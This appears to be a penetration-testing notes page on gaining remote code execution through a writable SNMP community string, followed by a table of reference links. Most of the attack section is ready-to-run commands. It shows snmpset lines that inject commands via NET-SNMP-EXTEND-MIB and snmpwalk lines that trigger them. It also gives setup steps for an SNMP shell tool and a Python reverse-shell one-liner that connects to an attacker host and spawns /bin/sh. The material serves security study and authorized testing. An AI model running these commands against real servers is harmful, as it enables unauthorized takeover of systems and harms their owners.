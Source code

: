 #### Remote Code Execution

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (`rwcommunity`) on the Linux operating system can be abused to let the attacker execute a command on the server.

*   **Extending Services:** While you are not able to modify existing entries that were configured in `snmpd.conf`, it is possible to add additional commands over SNMP, because the `MAX-ACCESS` permission setting in the MIB definition is set to `read-create`. Adding a new command basically works by appending an additional row to the `nsExtendObjects` table.

    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
    'nsExtendStatus."evilcommand"' = createAndGo \
    'nsExtendCommand."evilcommand"' = /bin/echo \
    'nsExtendArgs."evilcommand"' = 'hello world'
    ```

    Injecting a command to run on the SNMP service. `NET-SNMP-EXTEND-MIB` requires that you always provide the absolute path to the executable. The called binary/script must also exist and be executable.
*   **Execute The Injected Command:** Execute the command that we injected to the SNMP by enumerating it using snmpwalk.

    ```bash
    snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
    ```
*   **Gain a Shell from Net-SNMP Extend:** In this section, I would like to discuss how to gain a server shell to control the server. You can use python script developed by mxrch that can be downloaded from [Github - SNMP-Shell](https://github.com/mxrch/snmp-shell.git). To install the pre-requisites to run:

    ```bash
    sudo apt install snmp snmp-mibs-downloader rlwrap -y
    git clone https://github.com/mxrch/snmp-shell
    cd snmp-shell
    sudo python3 -m pip install -r requirements.txt
    ```
*   **Creating Reverse Shell:** You can also create reverse shell manually by injecting the command below into the SNMP.

    ```bash
    snmpset -m +NET-SNMP-EXTEND-MIB -v <snmp_version> -c <community_string> <target_ip> 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"<attack_ip>\",<attack_port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
    ```

## Resources

| **Website**                | **URL**                                                                       |
| -------------------------- | ----------------------------------------------------------------------------- |
| RFC 1157                   | https://tools.ietf.org/html/rfc1157                                           |
| SNMPv3 RFCs                | https://tools.ietf.org/html/rfc3411                                           |
| Net-SNMP Documentation     | https://www.net-snmp.org/docs/man/snmpd.html                                  |
| Nmap SNMP Scripts          | https://nmap.org/nsedoc/scripts/snmp.html                                     |
| Metasploit SNMP Modules    | https://www.rapid7.com/db/modules/auxiliary/scanner/snmp/snmp\_enum           |
| Wireshark SNMP Analysis    | https://wiki.wireshark.org/SNMP                                               |
| SolarWinds SNMP Monitoring | https://www.solarwinds.com/snmp-monitoring                                    |
| SNMP Tutorial and FAQ      | https://www.zabbix.com/documentation/current/manual/discovery/snmp\_discovery |
| Scapy Documentation        | https://scapy.readthedocs.io/en/latest/                                       |